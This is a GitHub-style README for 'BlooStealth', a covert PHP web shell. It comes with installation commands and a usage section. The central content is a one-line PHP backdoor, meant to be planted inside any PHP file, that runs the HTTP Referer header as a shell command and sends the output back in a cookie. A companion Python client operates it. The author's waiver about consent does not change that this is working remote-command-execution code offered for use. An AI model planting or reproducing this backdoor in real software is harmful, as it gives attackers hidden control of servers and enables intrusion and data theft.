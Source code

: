 # BlooStealth
Plant it in any PHP file. Totally not *sus*

## Installation

```bash
$ sudo apt-get install python3-pip
$ sudo apt-get install python3-urllib3
$ git clone https://github.com/bloos3rpent/bloostealth && cd bloostealth
```

## Disclaimer
Only works if `shell_exec()` function isn't disabled

## Usage

Upload `ninja.php` in the server OR insert the ff. php code anywhere in a PHP file.

```php
<? if(isset($_SERVER['HTTP_REFERER'])){$_=$_SERVER['HTTP_REFERER'];$b = `$_`;session_destroy();setcookie("x", $b, time()+30*24*60*60);} ?>
```
and then

```bash
python3 ninja.py
```

Now we can access it by inputting the bloostealth URL in the prompt

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## Waiver
I am NOT responsible to any misusage of this. Only do this with consent

## License
[Bloos3rpent](https://github.com/bloos3rpent)
